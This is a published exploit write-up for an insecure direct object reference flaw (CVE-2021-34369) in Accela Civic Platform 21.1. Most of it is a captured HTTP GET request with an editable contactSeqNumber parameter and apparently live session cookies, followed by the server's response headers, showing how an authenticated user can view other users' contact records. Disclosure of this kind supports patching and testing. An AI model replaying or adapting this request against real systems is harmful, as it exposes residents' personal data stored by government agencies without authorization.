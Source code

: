     # Exploit Title: Accela Civic Platform 21.1 - 'contactSeqNumber' Insecure Direct Object References (IDOR)
    # Software Link: https://www.accela.com/civic-platform/
    # Version: <= 21.1
    # Author: Abdulazeez Alaseeri
    # Tested on: JBoss server/windows
    # Type: Web App
    # Date: 07/06/2021
    # CVE: CVE-2021-34369


    ================================================================
    Accela Civic Platform Insecure Direct Object References <= 21.1
    ================================================================

    This vulnerability allows authenticated attackers to view other user's data by manpulating the value of contactSeqNumber
    ================================================================
    Request Heeaders start
    ================================================================

    GET /portlets/contact/ref/refContactDetail.do?mode=view&lookup=false&contactSeqNumber=848693&module=Licenses HTTP/1.1

    Host: Hidden

    Cookie: JSESSIONID=JurAf5eB5CcOPy-yB6_vyjysPwt5sJYWY--BWa7Y.civpnode; BIGipServerAccela_Automation_av.web_pool_PROD=1427686922.47873.0000; AAPersistLoginServProvCode=SAFVC; ACSignOnModule=SSOStandard; JSESSIONID=1bQKqPNdLWUadMJTDGeZOsBnei77VrC5stuwC8-K.civpnode; LASTEST_REQUEST_TIME=1623211660218; LoginServProvCode4MultiAgency=SAFVC; LoginUsername4MultiAgency=E0BD5838A6E2B0C4; hostSignOn=true; UUID=a849376e-f27f-4c73-91d1-3181bad7688d; ACSignoff="Hidden"; ACSwitchAgency="Hidden"; LATEST_LB=1427686922.47873.0000; LATEST_SESSION_ID=JurAf5eB5CcOPy-yB6_vyjysPwt5sJYWY--BWa7Y; LATEST_WEB_SERVER=10.198.24.86; g_current_language_ext=en_US; ACAuth=77040226932997938167623031760043758249275936032481641290563022545358808190678048903667802506479617333124770883197855794745875802

    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

    Accept-Language: en-US,en;q=0.5

    Accept-Encoding: gzip, deflate

    Upgrade-Insecure-Requests: 1

    Te: trailers

    Connection: close

    ================================================================
    Request Heeaders end
    ================================================================



    ================================================================
    Response Heeaders start
    ================================================================
    HTTP/1.1 200 OK

    Expires: Thu, 01 Jan 1970 00:00:01 GMT

    Cache-Control: no-cache

    X-Powered-By: JSP/2.3

    Set-Cookie: LASTEST_REQUEST_TIME=1623211780357; path=/; domain=.hidden; secure

    Set-Cookie: LATEST_LB=1427686922.47873.0000; path=/; domain=.hidden; secure

    Set-Cookie: LATEST_SESSION_ID=JurAf5eB5CcOPy-yB6_vyjysPwt5sJYWY--BWa7Y; path=/; domain=.hidden; secure

    Set-Cookie: LATEST_WEB_SERVER=10.198.24.86; path=/; domain=.hidden; secure

    X-XSS-Protection: 0

    Pragma: No-cache

    X-UA-Compatible: IE=EDGE

    Date: Wed, 09 Jun 2021 04:09:40 GMT

    Connection: close

    Content-Type: text/html;charset=UTF-8

    Content-Length: 98126
    ================================================================
    Response Heeaders end
    ================================================================

    contactSeqNumber value can be changed and return valid information about another user and that indicates it is vulnerable to IDOR